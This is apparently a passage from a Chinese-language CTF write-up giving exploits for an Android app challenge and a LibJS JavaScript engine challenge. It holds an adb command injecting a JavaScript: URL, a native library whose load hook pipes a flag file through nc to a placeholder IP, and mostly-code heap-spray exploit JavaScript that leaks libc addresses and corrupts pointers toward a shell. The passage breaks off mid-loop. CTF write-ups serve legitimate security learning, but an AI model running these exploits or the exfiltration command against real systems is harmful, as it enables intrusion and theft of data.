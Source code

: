 ```Java
# adb shell am start -n com.wmctf.wmbabydroid/com.wmctf.wmbabydroid.MainActivity -d "JavaScript://www.google.com/%0d%0awindow.location.href='http://xx.xx.xx.xx/'"
```

exp.so

```C++
#include <jni.h>
#include <stdlib.h>
#include <string.h>

JNIEXPORT jint JNI_OnLoad(JavaVM* vm, void* reserved) {
    system("cat /data/data/com.wmctf.wmbabydroid/files/flag | nc xx.xx.xx.xx 233");
    return JNI_VERSION_1_6;
}
```

### Broobwser

这题是一个非常简单的JS引擎溢出题目。JS引擎是LibJS，是在Serenity OS中使用的，Serenity OS是个超酷的操作系统，值得学习。这个JS引擎可以跑在宿主机上，这里环境是Ubuntu 22.04。

在本地调试劫持程序流其实非常简单，因为偏移只要拉到gdb调试下就可以找到。但这题主要的难度在于远程服务器的堆布局十分不稳定，哪怕多加一行代码输入都有可能改变堆布局，从而导致溢出的数据不对，所以关键在于获取稳定的任意地址读写。在本地测试的时候，我用了堆喷来增加稳定性。再接下来的部分就是ROP读取flag。

```js
function hex(i){return "0x" + i.toString(16);}
gc()

abs = []
dvs = []

for(var i = 0; i < 0x100; i++){
    abs.push(new ArrayBuffer(0x100));
    abs[i].byteLength = 0x1337;
}

for(var i = 0; i < 0x100; i++){
    dvs.push(new DataView(abs[i]));
    dvs[i].setBigUint64(0, 0x4141414141414141n, true);
    dvs[i].setBigUint64(8, BigInt(i), true);
}

for(var i = 0; i < 0x100; i++){
    heap_addr = dvs[i].getBigUint64(0x1f8, true);
    size = dvs[i].getBigUint64(0x218, true);
    if(size == 0x3341n && heap_addr > 0x500000000000n){
        console.log(hex(heap_addr));
        break;
    }
}
if(heap_addr < 0x500000000000n){
    console.log("Try again 1");
    exit(0);
}

lib_lagom_leak = dvs[i].getBigUint64(0x2b8, true);
libc_base = lib_lagom_leak - 0xcb67b0n
console.log(hex(lib_lagom_leak));
console.log(hex(libc_base));

bin_sh = libc_base + 0x1d8698n;
environ = libc_base + 0xd142d0n;
dvs[i].setBigUint64(0x1f8, bin_sh, true);
for(var j = 0; j < 0x100; j++){
    verify = dvs[j].getBigUint64(0, true);
```